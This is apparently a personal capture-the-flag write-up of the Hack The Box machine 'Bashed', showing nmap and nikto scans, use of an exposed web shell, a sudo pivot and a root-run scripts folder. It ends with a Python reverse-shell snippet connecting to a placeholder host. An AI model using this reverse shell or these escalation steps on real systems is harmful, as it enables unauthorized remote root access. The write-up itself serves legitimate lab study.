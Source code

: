 # Bashed 
Name: Bashed
Date: 03/05/2022
Difficulty: Easy
Description: N/a
Better Description: Vi the final boss 
Goals: TJ Null OSCP number One
Learnt: Sometimes metasploit multi/handler is not the answer. 

## Recon

```bash
ping 10.129.107.29                  
PING 10.129.107.29 (10.129.107.29) 56(84) bytes of data.
64 bytes from 10.129.107.29: icmp_seq=1 ttl=63 time=42.1 ms
64 bytes from 10.129.107.29: icmp_seq=2 ttl=63 time=37.5 ms
64 bytes from 10.129.107.29: icmp_seq=3 ttl=63 time=40.9 ms
^C
--- 10.129.107.29 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 37.517/40.139/42.051/1.917 ms

nmap -F 10.129.107.29               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:44 BST
Nmap scan report for 10.129.107.29
Host is up (0.046s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

nmap -sC -sV -T 4 -p- 10.129.107.29 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:45 BST
Nmap scan report for 10.129.107.29
Host is up (0.051s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.29 seconds
```

Nikto

```bash
nikto -h 10.129.107.29
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.107.29
+ Target Hostname:    10.129.107.29
+ Target Port:        80
+ Start Time:         2022-05-03 16:47:01 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2022-05-03 16:55:02 (GMT1) (481 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                    
```

While nikto was still scanning I went to /dev/ tried the shell.
![one](Screenshots/dev-phpbash-disc.png)

We can get user.txt from /home/arrexel, I then transfered a shell to make stdout easier.
Then got LinEnum:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can just:

```bash
sudo -u scriptmanager /bin/bash
```

Now we are the scriptmanager user. Reran LinEnum and saw nothing exciting. Then linux-exploit-suggester.sh.
```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

But then I found there is no gcc, cc, clang so this a clear dead-end.

I ran linuxprivchecker.sh a notice  popularity contest.
A Debian's popularity-contest, on a Ubuntu box..
It does these things:

```perl
-u <url>  submit to the given URL (default popcon.debian.org)
```
It did not seem to work. Ran some more scripts
`drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts`

![bingo](Screenshots/bingo.png)


```python
import socket, subprocesss,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("IP", PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

This will give you root.

![root](Screenshots/root.png)
